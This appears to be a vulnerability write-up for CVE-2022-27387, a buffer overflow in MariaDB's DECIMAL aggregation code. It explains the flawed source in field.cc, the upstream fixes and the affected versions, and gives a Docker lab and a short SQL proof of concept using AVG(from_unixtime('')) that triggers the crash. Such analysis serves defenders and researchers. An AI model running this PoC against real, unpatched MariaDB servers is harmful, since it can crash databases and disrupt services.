


# CVE-2022-27387 CWE-120 MariaDB Buffer Overflow

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **DECIMAL Type:** A data type in databases used to represent high-precision fixed-point numbers, commonly used to store exact decimal calculations for amounts and measurements. Compared to FLOAT/DOUBLE, DECIMAL avoids accuracy errors caused by binary floating-point operations. Users can specify the length of integer and decimal places when defining table structure (e.g., DECIMAL(10,2) means up to 10 digits, with 2 decimal places), ensuring absolute accuracy in storage and computation. It is the preferred type in fields requiring extremely high numerical precision, such as finance and accounting.
- **CWE-120 Buffer Copy without Checking Size of Input ('Classic Buffer Overflow'):** Buffer copy without checking input size ('Classic Buffer Overflow'). When processing external input or internal data, the program fails to adequately check the buffer boundaries, resulting in data writes exceeding the actual buffer size and thus covering adjacent memory regions. Such vulnerabilities are widespread in programs like C/C++ that require manual memory management. Attackers can trigger overflows through carefully constructed input data, leading to crashes, information leaks, or even remote code execution.

## Vulnerability Mechanism
When MariaDB handles DECIMAL-type aggregation or serialization, the logic for allocating binary cache space `decimal_bin_size` and related precision parameters has flaws. If the input parameters are illegal, extreme, or boundary, the buffer is allocated smaller than actually required, ultimately causing a global buffer overflow during write.

## Vulnerability Location
Analysis of MariaDB 10.6.3 source code:

At line 3302 of the sql\field.cc file, in the `Field_new_decimal` function, DECIMAL-type fields are directly input by the user or passed in by expression calculations during initialization or aggregation, without a mandatory maximum limit.

If the `dec_arg` or `len_arg` are abnormal here, `precision` may exceed the safe range, causing `bin_size` allocation to be too small, and **buffer overflow will occur during write**.

```cpp
// field.cc
static decimal_digits_t get_decimal_precision(uint len, decimal_digits_t dec,
                                              bool unsigned_val)
{
  uint precision= my_decimal_length_to_precision(len, dec, unsigned_val);
  return (decimal_digits_t) MY_MIN(precision, DECIMAL_MAX_PRECISION);
}

// 3302 lines
Field_new_decimal::Field_new_decimal(uchar *ptr_arg,
                                     uint32 len_arg, uchar *null_ptr_arg,
                                     uchar null_bit_arg,
                                     enum utype unireg_check_arg,
                                     const LEX_CSTRING *field_name_arg,
                                     decimal_digits_t dec_arg,bool zero_arg,
                                     bool unsigned_arg)
  :Field_num(ptr_arg, len_arg, null_ptr_arg, null_bit_arg,
             unireg_check_arg, field_name_arg, dec_arg, zero_arg, unsigned_arg)
{
  precision= get_decimal_precision(len_arg, dec_arg, unsigned_arg);
  DBUG_ASSERT((precision <= DECIMAL_MAX_PRECISION) &&
              (dec <= DECIMAL_MAX_SCALE));
  bin_size= my_decimal_get_binary_size(precision, dec);
}
```

## Remediation
`Field_new_decimal` functions in sql\field.cc files `MY_MIN(dec_arg, DECIMAL_MAX_SCALE)` `dec_arg` and pass them to the base class `Field_num`, This means taking the smaller value between `dec_arg` and `DECIMAL_MAX_SCALE`, preventing users, callers, or certain complex expressions from accidentally passing in more decimal places than the database allows, which could cause type inference or memory allocation errors.

```cpp
Field_new_decimal::Field_new_decimal(...)
  :Field_num(ptr_arg, len_arg, null_ptr_arg, null_bit_arg,
             unireg_check_arg, field_name_arg,
             // Increase the portion
             MY_MIN(dec_arg, DECIMAL_MAX_SCALE), 
             zero_arg, unsigned_arg){
	// ...
}
```

For versions 10.7 and above, a dedicated parameter validation and buffer allocation function was added, and all constructors of the `Field_new_decimal` call this new function, ensuring that regardless of the input, accuracy and `bin_size` are maximally protected.

```cpp
void Field_new_decimal::set_and_validate_prec(uint32 len_arg, uint8 dec_arg, bool unsigned_arg)
{
  precision= my_decimal_length_to_precision(len_arg, dec_arg, unsigned_arg);
  set_if_smaller(precision, DECIMAL_MAX_PRECISION);
  bin_size= my_decimal_get_binary_size(precision, dec);
}
```

In the sql\item_sum.cc file, **upper normalization is added before using parameters** to ensure that overbound parameters are not passed down to the lower level for distribution.

```cpp
// First, normalize the input parameters
decimals = MY_MIN(decimals, DECIMAL_MAX_SCALE);
precision = MY_MIN(precision, DECIMAL_MAX_PRECISION);
// Then, normalized parameters are used to allocate space
max_length = my_decimal_precision_to_length_no_truncation(precision, decimals, unsigned_flag);

// AVG, SUM, and other aggregated intermediate caches
f_precision = MY_MIN(precision + DECIMAL_LONGLONG_DIGITS, DECIMAL_MAX_PRECISION);
f_scale = args[0]->decimal_scale();
dec_bin_size = my_decimal_get_binary_size(f_precision, f_scale);
```

## Affected Versions
**Affected version:** MariaDB:

- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Start the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, there is a database test_db, open port 3306, and the container contains a PoC file CVE-2022-27387-PoC.sql.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. After running the PoC file CVE-2022-27387-PoC.sql, you will see an error 'Out of sort memory,' which is a prompt indicating that MariaDB is experiencing abnormal memory allocation during sorting.

```sql
source CVE-2022-27387-PoC.sql
```



## PoC Analysis

```sql
-- Create table t1 with only one column, named v1, containing only one row with NULL
CREATE TABLE t1 AS SELECT NULL AS v1;

SELECT 1 FROM t1 
	GROUP BY v1 
		-- from_unixtime('') will attempt to convert the empty string into a UNIX timestamp, then format it as a date and time
		-- An empty string cannot be correctly converted to a number, so this will result in a false/boundary type conversion
		ORDER BY AVG ( from_unixtime ( '' ) ) ;
```

`from_unixtime('')` Converts an empty string as a timestamp to time, which is a valid/exception input that causes MariaDB to enter an exception type conversion branch and **generate abnormal CRUCIAL parameters** (such as precision, scale). Subsequently, these unnormalized decimal and precision parameters are not forcibly restricted within the safe range when passed downward by the aggregation (AVG) function to the underlying memory allocation (bin_size), resulting in a buffer allocated smaller than the actual write demand, which causes buffer overflow during aggregation sorting execution.

## References
[NVD - CVE-2022-27387](https://nvd.nist.gov/vuln/detail/CVE-2022-27387)

[[MDEV-26422\] ASAN: global-buffer-overflow in decimal_bin_size on SELECT - Jira](https://jira.mariadb.org/browse/MDEV-26422)

[[MDEV-25317\] Assertion `scale <= precision' failed in decimal_bin_size And Assertion `scale >= 0 && precision > 0 && scale <= precision' failed in decimal_bin_size_inline/decimal_bin_size -  Jira](https://jira.mariadb.org/browse/MDEV-25317)

[MDEV-25317 Assertion `scale <= precision' failed in decimal_bin_size … ·  MariaDB/server@eca207c](https://github.com/MariaDB/server/commit/eca207c46293bc72dd8d0d5622153fab4d3fccf1#diff-a59a1f2afc6a4faa508b8bebddf33c880dc6a084819047c36210c27328336c51)

[server/sql/field.cc at mariadb-10.6.8 · MariaDB/server](https://github.com/MariaDB/server/blob/mariadb-10.6.8/sql/field.cc)
